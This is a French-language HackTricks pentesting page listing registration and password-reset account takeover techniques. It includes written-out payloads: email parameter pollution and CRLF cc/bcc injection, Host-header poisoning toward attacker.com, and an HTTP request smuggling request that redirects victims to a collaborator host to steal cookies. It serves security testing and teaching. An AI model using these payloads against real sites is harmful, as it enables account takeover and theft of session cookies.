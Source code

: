 # Vulnérabilités d'Inscription & de Prise de Contrôle

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en Équipe Rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>

## Prise de Contrôle de l'Inscription

### Inscription en Double

* Essayez de générer en utilisant un nom d'utilisateur existant
* Vérifiez en variant l'e-mail :
  * majuscules
  * \+1@
  * ajoutez des points dans l'e-mail
  * caractères spéciaux dans le nom de l'e-mail (%00, %09, %20)
  * Mettez des caractères noirs après l'e-mail : `test@test.com a`
  * victim@gmail.com@attacker.com
  * victim@attacker.com@gmail.com

### Énumération des Noms d'Utilisateur

Vérifiez si vous pouvez déterminer si un nom d'utilisateur a déjà été enregistré dans l'application.

### Politique de Mot de Passe

En créant un utilisateur, vérifiez la politique de mot de passe (vérifiez si vous pouvez utiliser des mots de passe faibles).\
Dans ce cas, vous pouvez essayer de bruteforcer les informations d'identification.

### Injection SQL

[**Consultez cette page** ](sql-injection/#insert-statement)pour apprendre comment tenter des prises de contrôle de compte ou extraire des informations via des **Injections SQL** dans les formulaires d'inscription.

### Prises de Contrôle Oauth

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### Vulnérabilités SAML

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Changement d'E-mail

Une fois inscrit, essayez de changer l'e-mail et vérifiez si ce changement est correctement validé ou s'il peut être changé en e-mails arbitraires.

### Autres Vérifications

* Vérifiez si vous pouvez utiliser des **e-mails jetables**
* Un **mot de passe long** (>200) entraîne un **DoS**
* **Vérifiez les limites de taux sur la création de compte**
* Utilisez username@**burp\_collab**.net et analysez le **callback**

## **Prise de Contrôle de Réinitialisation de Mot de Passe**

### Fuite de Jeton de Réinitialisation de Mot de Passe Via Référent <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Demandez la réinitialisation du mot de passe à votre adresse e-mail
2. Cliquez sur le lien de réinitialisation du mot de passe
3. Ne changez pas le mot de passe
4. Cliquez sur n'importe quel site tiers (par exemple : Facebook, Twitter)
5. Interceptez la requête dans le proxy Burp Suite
6. Vérifiez si l'en-tête referer divulgue le jeton de réinitialisation du mot de passe.

### Empoisonnement de Réinitialisation de Mot de Passe <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Interceptez la demande de réinitialisation de mot de passe dans Burp Suite
2. Ajoutez ou modifiez les en-têtes suivants dans Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Transférez la demande avec l'en-tête modifié\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Recherchez une URL de réinitialisation de mot de passe basée sur l'en-tête _host_ comme : `https://attacker.com/reset-password.php?token=TOKEN`

### Réinitialisation de Mot de Passe Via Paramètre E-mail <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR sur les paramètres de l'API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. L'attaquant doit se connecter avec son compte et accéder à la fonctionnalité **Changer de mot de passe**.
2. Démarrer Burp Suite et intercepter la requête.
3. Envoyez-la à l'onglet repeater et modifiez les paramètres : ID utilisateur/email\
`powershell POST /api/changepass [...] ("form": {"email":"victime@email.com","password":"motdepasse"})`

### Jeton de réinitialisation de mot de passe faible <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Le jeton de réinitialisation de mot de passe doit être généré de manière aléatoire et unique à chaque fois.\
Essayez de déterminer si le jeton expire ou s'il est toujours le même, dans certains cas, l'algorithme de génération est faible et peut être deviné. Les variables suivantes peuvent être utilisées par l'algorithme.

* Horodatage
* ID utilisateur
* Email de l'utilisateur
* Prénom et nom de famille
* Date de naissance
* Cryptographie
* Nombre uniquement
* Petite séquence de jeton (caractères entre \[A-Z,a-z,0-9])
* Réutilisation du jeton
* Date d'expiration du jeton

### Fuite de jeton de réinitialisation de mot de passe <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Déclenchez une demande de réinitialisation de mot de passe en utilisant l'API/UI pour un e-mail spécifique, par exemple : test@mail.com
2. Inspectez la réponse du serveur et recherchez `resetToken`
3. Ensuite, utilisez le jeton dans une URL comme `https://exemple.com/v3/user/password/reset?resetToken=[LE_JETON_DE_REINITIALISATION]&email=[L_EMAIL]`

### Réinitialisation de mot de passe via collision de nom d'utilisateur <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Inscrivez-vous sur le système avec un nom d'utilisateur identique à celui de la victime, mais avec des espaces blancs insérés avant et/ou après le nom d'utilisateur. par exemple : `"admin "`
2. Demandez une réinitialisation de mot de passe avec votre nom d'utilisateur malveillant.
3. Utilisez le jeton envoyé à votre e-mail et réinitialisez le mot de passe de la victime.
4. Connectez-vous au compte de la victime avec le nouveau mot de passe.

La plateforme CTFd était vulnérable à cette attaque.\
Voir : [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Prise de contrôle de compte via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Trouvez une XSS à l'intérieur de l'application ou d'un sous-domaine si les cookies sont définis sur le domaine parent : `*.domaine.com`
2. Fuite du **cookie de session** actuel
3. Authentifiez-vous en tant qu'utilisateur en utilisant le cookie

### Prise de contrôle de compte via Smuggling de requête HTTP <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1. Utilisez **smuggler** pour détecter le type de Smuggling de requête HTTP (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2. Créez une requête qui écrasera le `POST / HTTP/1.1` avec les données suivantes :\
`GET http://quelquechose.burpcollaborator.net HTTP/1.1 X:` dans le but de rediriger les victimes vers burpcollab et de voler leurs cookies\
3. La requête finale pourrait ressembler à ce qui suit
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
### Prise de contrôle de compte via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Créer une charge utile pour le CSRF, par exemple : "Formulaire HTML avec soumission automatique pour un changement de mot de passe"
2. Envoyer la charge utile

### Prise de contrôle de compte via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

Le jeton JSON Web peut être utilisé pour authentifier un utilisateur.

* Modifier le JWT avec un autre ID utilisateur / e-mail
* Vérifier la signature JWT faible

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Références

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
